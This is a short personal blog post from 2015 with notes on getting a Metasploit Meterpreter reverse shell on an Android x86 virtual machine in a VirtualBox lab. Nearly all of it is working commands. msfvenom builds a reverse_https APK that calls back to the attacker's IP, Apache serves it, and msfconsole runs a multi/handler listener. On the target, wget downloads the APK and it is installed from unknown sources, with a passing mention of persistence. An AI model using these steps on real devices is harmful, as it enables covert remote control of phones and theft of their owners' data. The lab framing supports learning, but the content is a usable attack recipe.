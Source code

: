 ```yaml
---
title: 'Reverse Shell on Android'
date: 2015-12-29T16:14:00.001Z
draft: false
aliases: [ "/2015/12/reverse-shell-on-android.html" ]
parent: Blogger
---
```

#### date: 2015-12-29

Notes on gaining reverse shell to android using metasploit, these notes are to remind me some time in the future once I've forgotten what I did because I seem to do that these days :)  
  
Requirements  
VirtualBox  
VM: Kali Linux 2.0  
VM: Android x86 5.1 (must use PCNET single adapter for ethernet 'host only' and set graphics ram to max 128mb)  
  
Setup Services on Kali;  
\# service apache2 start  
\# ifconfig #note your IP  
\# msfvenom -p android/meterpreter/reverse\_https LHOST=(IP FROM ABOVE) LPORT=8443 R > androidshell.apk  
eg #msfvenom -p android/meterpreter/reverse\_https LHOST=192.168.56.100 LPORT=8443 R > androidshell.apk  
\# cp androidshell.apk /var/www/html/  
Open metasploit framework and in msfconsole enter;  
msf> use exploit/multi/handler  
msf> set PAYLOAD android/meterpreter/reverse\_https  
msf> set LHOST (IP Noted from above)  
eg msf> set LHOST 192.168.56.100  
msf> set ExitOnSession false  
msf> exploit -j -z  
  
  
Target Android Device  
http://www.android-x86.org/documents/virtualboxhowto  
http://www.android-x86.org/documents/installhowto  
  
Once installed open termimal emulator and use following commands to setup the networking;  
$ su  
\# netcfg  
\# netcfg eth1 up  
\# netcfg eth1 dhcp  
\# ping \[serverIP\]  
\# cd /sdcard/Download/  
\# wget http://(ip addy)/android\_shell.apk  
eg # wget http://192.168.56.100/android\_shell.apk  
  
switch back to home screen and open the file manager then browse to the downloads and open the APK, you will be warned about your settings so go ahead and enable 'unknown sources'  
  
if you restart the client you will need to open the app 'MainActivity' to reconnect. There might be some scripts to make it persist a little but reboots will wipe the connection.  
  
on kali you can use msf> sessions -i 1   #change number according to session you want to connect to.